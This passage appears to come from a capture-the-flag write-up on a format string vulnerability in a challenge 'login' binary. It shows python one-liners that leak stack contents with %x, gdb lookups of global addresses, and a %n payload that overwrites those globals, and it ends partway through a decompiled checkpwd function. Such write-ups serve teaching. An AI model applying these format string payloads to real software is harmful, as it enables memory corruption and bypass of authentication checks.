 First we locate the position on the stack where our input is taken (`printf` will have it's own stack frame). We could locate this by giving a recognisable input pattern and pop the stack using the `%x` specifier until we hit our input pattern.
```
$ python -c "print 'AAAA' + '%x-'*3 + '%x'" | ./login
Welcome to the extremely secure login. Who are you?
AAAA100-f7f50580-804942d-41414141
Unauthorised
```
We can see the pattern `41414141` corresponding to our input `AAAA`.
Using this, we could manipulate the value of one variable. So we add another pattern and align the stack.
```
$ python -c "print 'AAAABBBB' + '%x-'*4 + '%x'" | ./login
Welcome to the extremely secure login. Who are you?
AAAABBBB100-f7f4d580-804942d-41414141-42424242
Unauthorised
```
Now we need to find the addresses of `n` and `m`. They are global variables, and are stored in the data segment and not in the stack. One way to find their addresses is using gdb.
```
(gdb) info variables
All defined variables:

Non-debugging symbols:
...
0x0804c02c  n
0x0804c030  m
...
```
Thus we modify our input and place `%n%n` in place of the last two `%x`.
```
$ python -c "print '\x2c\xc0\x04\x08\x30\xc0\x04\x08' + '%x-'*3 + '%n%n'" | ./login
Welcome to the extremely secure login. Who are you?
100-f7ef0580-804942d-
Enter password 1 of length 29
Nope..
Enter password 2 of length 29
Unauthorised
```
Now that we can control the values of `n` and `m`, we must take a closer look at the decompilation of `checkpwd`.
We are asked for two password inputs, stored in two `char` arrays of length `256`. `local_20` looks like a loop counter variable. `local_2d2` and `local_2ce` store constant values.
After taking our password inputs, there seems to be a loop which checks something, and then the loop variable is compared with `100` in after the first password, and `0x46 = 70` in decimal after the second password, and flag is set accordingly. These values match with the lengths of `array2` and `array1`. This must be to check that our input string matches the array lengths, and also reveals that our password lengths must be 100 and 70 respectively.
Renaming variables for clarity, here is the decompilation of `checkpwd` again.
```c
void checkpwd(void) {
  int iVar1;
  int *piVar2;
  int *piVar3;
  char pwd2 [256];
  char pwd1 [256];
  undefined4 local_2d2;
  undefined2 local_2ce;
  int array1 [70];
  int array2 [100];
  int flag;
  int i;
  
  iVar1 = 100;
```
